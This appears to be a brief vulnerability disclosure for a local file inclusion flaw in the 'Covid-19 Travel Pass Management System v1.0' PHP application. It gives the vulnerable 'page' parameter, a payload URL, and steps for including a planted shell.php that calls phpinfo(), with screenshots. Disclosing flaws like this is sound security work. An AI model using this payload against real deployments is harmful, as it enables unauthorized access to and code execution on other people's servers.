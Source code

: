 # Covid-19 Travel Pass Management System v1.0 by oretnom23 has The local file contains

vendor : https://www.sourcecodester.com/php/15308/covid-19-travel-pass-management-system-phpoop-free-source-code.html

Vulnerability File: ip/ctpms/admin/?page=

Vulnerability location: ip/ctpms/admin/?page=, page

Payload: ip/ctpms/admin/?page=shell

![image](https://user-images.githubusercontent.com/54017627/167079931-0713d4b7-c1c8-4d48-a58b-466b35b29d89.png)

We create a shell.php under the PHP file of the root of the website, which reads "<?" phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/167079874-6a136cf5-aedc-442d-84e1-271e277be1e4.png)

And visit http://ip/ctpms/admin/?page=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/167079965-ac6e6bee-00f6-4901-a454-b4619888f380.png)
